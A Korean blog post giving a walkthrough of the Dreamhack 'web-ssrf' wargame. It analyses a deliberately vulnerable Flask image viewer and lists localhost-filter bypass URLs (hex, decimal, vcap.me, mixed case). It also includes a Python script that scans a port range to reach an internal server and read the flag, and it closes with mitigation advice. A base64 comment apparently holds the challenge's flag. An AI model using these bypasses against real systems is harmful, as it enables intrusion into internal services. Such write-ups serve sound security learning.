 ```yaml
---
layout : single
title : "STAGE9. Server Side Request Forgery"
categories: Security
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# Web Hacking - ServerSide : Server Side Request Forgery (SSRF)

-  [x] 함께 실습 : web-ssrf

## 함께 실습 : web-ssrf

플래그는 /app/flag.txt 에 있다

### 웹 서비스 분석

#### /img_viewer

GET : img_viewer.html 렌더링

POST : 이용자가 입력한 url에 HTTP 요청을 보내고, 응답을 img_viewer.html의 인자로 렌더링

```python
@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)
```

#### run_local_server 함수

파이썬의 기본 모듈인 http를 이용하여 127.0.0.1의 임의 포트에 HTTP 서버를 실행한다. http.server.HTTPServer의 두 번째 인자로 http.server.SimpleHttpRequestHandler을 전달하면, 현재 디렉토리를 기준으로 URL이 가리키는 리소스를 반환하는 웹 서버가 생성된다. 

```python
local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)

def run_local_server():
    local_server.serve_forever()

threading._start_new_thread(run_local_server, ())
```

### 취약점 분석 

```python
elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
    data = open("error.png", "rb").read()
    img = base64.b64encode(data).decode("utf8")
    return render_template("img_viewer.html", img=img)
```

img_viewer는 위와 같은 방법으로 127.0.0.1 또는 localhost가 포함된 URL로의 접근을 막기에, 이를 우회하면 SSRF를 통한 내부 HTTP 서버 접근을 할 수 있다.

\* URL 필터링은 URL에 포한되면 안되는 문자열로 블랙리스트를 만들고, 이를 이용하여 이용자의 접근을 제어하는 블랙리스트 필터링과, 접근을 허용할 URL로 구성된 화이트리스트 외의 URL을 모두 차단하는 화이트리스트 필터링으로 나뉜다

### 익스플로잇

- 127.0.0.1과 매핑된 도메인 이름 사용 <br>임의의 도메인 이름을 구매하여 127.0.0.1과 연결하고, 그 이름을 url로 사용하거나, 이미 127.0.0.1에 매핑된 *.vcap.me 를 이용하여 접근할 수 있다

- 127.0.0.1의 alias 이용 <br>하나의 IP는 여러 방식으로 표기되는데, 127.0.0.1의 경우, 다음과 같은 방식으로 표기될 수 있다.

>>|How|Example|
|:---|:---|
|16진수로 변환|0x7f.0x00.0x00.0x01|
|16진수 변환에서 . 제거|0x7f000001|
|위 숫자를 10진수로 변환|2130706433|
|각 자리에서 0 생략|127.1 / 127.0.1|

- localhost의 alias 이용<br>호스트와 스키마는 대소문자를 구분하지 않으므로, localhost의 임의 문자를 대문자로 바꾸어도 같은 호스트를 의미한다

#### 필터링을 우회할 수 있는 로컬호스트의 URL

http://vcap.me:8000/

http://0x7f.0x00.0x00.0x01:8000/

http://0x7f000001:8000/

http://2130706433:8000/

http://Localhost:8000/

http://127.0.0.255:8000/

<!-- data:image/png;base64, REh7NDNkZDIxODkwNTY0NzVhN2YzYmQxMTQ1NmExN2FkNzF9 -->

#### 풀이

1) 아래와 같이 내부 HTTP 서버의 포트번호를 알아내는 코드를 작성 후 실행한다

```python
from flask import (
    Flask,
    request
)
import requests

for port in range(1500, 1800):
    res = requests.post('http://host3.dreamhack.games:10334/img_viewer', data={'url': 'http://Localhost:' + str(port)})
    print(port)
    if len(res.text) != 65121: # error.png의 res.text 길이 = 65121 바이트
        print('random port: ' + str(port))
        break
```

2) 다음과 같이 포트 번호의 정보를 얻는다

<img src = "/images/wargame/19.png"><br>

3) 포트 번호를 넣어 app/flag.txt 에 접근한다

<img src = "/images/wargame/17.png"><br>

4) 출력되는 img의 src가 바뀐 것을 볼 수 있는데, 다음 정보를 base64 디코더에 넣어 디코딩 하면 flag를 얻을 수 있다

<img src = "/images/wargame/18.png"><br>

### SSRF 공격을 막으려면 ?

화이트리스팅으로 강한 URL 필터링을 적용하거나, HTTP 요청을 하는 애플리케이션을 내부망과 분리하여 약점을 보완할 수 있다